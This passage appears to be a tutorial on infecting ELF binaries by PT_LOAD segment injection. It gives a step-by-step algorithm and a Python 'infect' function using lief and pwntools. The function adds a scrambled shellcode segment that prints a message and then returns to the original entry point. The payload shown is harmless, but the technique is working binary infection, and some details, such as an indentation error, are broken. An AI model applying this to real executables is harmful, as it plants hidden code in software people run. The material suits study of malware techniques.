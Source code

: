 You also need to understand the attributes of this header type. We are interested in:

p_filesz = the size of the segment in the file

p_memsz = this size of the segment in the memory

p_flags = the permission flags (x,r,e)



Let's create our algorithm to create our shellcode to be injected.

## Algorithm of pt_load injection 

We will use two powerful libraries:

- lief
- pwntools 

You can check these libraries in your free time.


1. We need to parse the file to get into the entrypoint.

2. When this step is done, we shall create a new load segment

3. After creating; u can create your shellcode into that new segment

4. after injecting; do not forget to patch the binary. 

5. In order to trace the target, you can add the old entry point to the malicious to become (your choice) but tracing 
anonymously will be useful.

6. when the fifth is done, save the binary as output.




## Creating the devil code


```python 

def infect(file, output):
    prGreen("[+] It has been infected")
    payload   = "dangerous is coming\n"
    evilfile  = lief.parse(file)
    devilcode = asm("mov esi, edx")   # edx will stored to the esi (file)
    devilcode += asm(pwnlib.shellcraft.i386.write(1, payload, len(payload)))
    devilcode =  pwnlib.encoders.encoder.scramble(devilcode) 
    hex_ = hex(evilfile.header.entrypoint)
    devilcode += asm(f"mov esi, edx; push {hex_}; ret")
    print("devilcode size : " ,len(devilcode))
		print(f"payload {devilcode}")                   
    # ------------------------------------------------------------------------------------------
    
    segment = lief.ELF.Segment() 
    segment.type =  lief.ELF.SEGMENT_TYPES.LOAD 
    segment.flags = lief.ELF.SEGMENT_FLAGS.X                        
    segment.content = bytearray(devilcode)                          
    segment.alignment = 0x1234                                     #segment alignment in memory.
    evilfile.add(segment)


```
